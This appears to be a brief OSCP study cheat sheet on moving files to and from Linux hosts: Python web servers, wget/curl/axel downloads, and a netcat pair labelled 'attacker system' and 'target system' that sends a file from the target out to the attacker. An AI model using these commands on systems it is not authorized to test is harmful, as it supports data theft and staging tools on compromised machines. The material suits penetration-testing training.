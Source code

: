```yaml
---
title: Linux File Transfers
author: linatl
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
> sudo python3 -m http.server 80
Python2
> sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
> wget 192.168.1.1:443/file.txt
> curl 192.168.1.1:443/file.txt -o file.txt
> axel 192.168.1.1:443/file.txt -o file.txt
```

###### netcat
```
On the attacker system:
> nc -lvp 80 > file.txt
On the target system:
> nc 192.168.1.1 80 < file.txt
```
